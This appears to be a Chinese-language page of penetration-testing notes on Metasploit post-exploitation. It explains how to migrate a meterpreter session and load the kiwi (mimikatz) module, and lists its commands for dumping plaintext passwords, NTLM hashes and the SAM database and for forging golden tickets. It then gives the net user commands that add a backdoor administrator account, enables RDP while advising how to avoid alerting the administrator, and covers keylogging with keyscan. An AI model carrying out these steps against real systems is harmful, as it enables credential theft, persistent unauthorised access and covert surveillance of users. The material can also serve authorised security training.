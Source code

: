 - 关于该模块的用法：[MSF中kiwi模块的使用](https://xie1997.blog.csdn.net/article/details/104802921)

-   kiwi模块同时支持32位和64位的系统，但是该模块默认是加载32位的系统，所以如果目标主机是64位系统的话，直接默认加载该模块会导致很多功能无法使用。
-   所以如果目标系统是64位的，则必须先查看系统进程列表，然后将meterpreter进程迁移到一个64位程序的进程中，才能加载kiwi并且查看系统明文。如果目标系统是32位的，则没有这个限制。
-   ps然后找x64架构的进程，migrate 进程pid。
-   加载kiwi模块：load kiwi
-   查看kiwi模块的使用 helpkiwi
    -   **creds_all： 列举所有凭据 该命令可以列举系统中的明文密码**
    -   creds_kerberos：列举所有kerberos凭据
    -   creds_msv：列举所有msv凭据
    -   creds_ssp：列举所有ssp凭据
    -   creds_tspkg：列举所有tspkg凭据
    -   creds_wdigest：列举所有wdigest凭据
    -   dcsync： 通过DCSync检索用户帐户信息
    -   dcsync_ntlm： 通过DCSync检索用户帐户NTLM散列、SID和RID
    -   golden_ticket_create：创建黄金票据
    -   kerberos_ticket_list：列举kerberos票据
    -   kerberos_ticket_purge：清除kerberos票据
    -   kerberos_ticket_use：使用kerberos票据
    -   kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
    -   lsa_dump_sam：dump出lsa的SAM
    -   lsa_dump_secrets：dump出lsa的密文
    -   password_change：修改密码
    -   wifi_list： 列出当前用户的wifi配置文件
    -   wifi_list_shared： 列出共享wifi配置文件/编码

-   或者运行MSF里面自带的mimikatz 模块 ，该模块的使用需要**System权限**。传送门：[MSF中mimikatz模块的使用](https://blog.csdn.net/qq_36119192/article/details/103002480)。目前该模块已经被kiwi模块代替了。
-   **获取密码之后就远程登陆：**
    -   这里我们已经获得了administrator的账号和密码，现在我们既可以使用administrator账号登录，也可以**新建账号登录**(hack/Password@)。(不建议直接用administrator身份登录，因为这样有可能会惊动管理员)
    -   在shell下
        -   net user hack Password@ /add 添加一个新用户hack 密码为Password@
        -   net localgroup administrators hack /add 将hack用户赋予管理员权限
        -   net user 查看是否添加成功
    -   查看3389端口是否打开，否，使用run post/windows/manage/enable_rdp打开3389端口
    -   尝试3389远程登录该主机，但是弹出 "如果我们继续登录，则会断开该主机的当前连接"。为了不惊动管理员，这里我们不继续连接了。
        -   ![image7](metasploit.assets/image7-1.png)

#### 键盘/鼠标

1.  keyscan_start#开启键盘记录功能
2.  keyscan_dump#显示捕捉到的键盘记录信息
3.  keyscan_stop#停止键盘记录功能
4.  uictl disable keyboard#禁止目标使用键盘
5.  uictl enable keyboard#允许目标使用键盘
6.  uictl disable mouse#禁止目标使用鼠标
7.  uictl enable mouse#允许目标使用鼠标
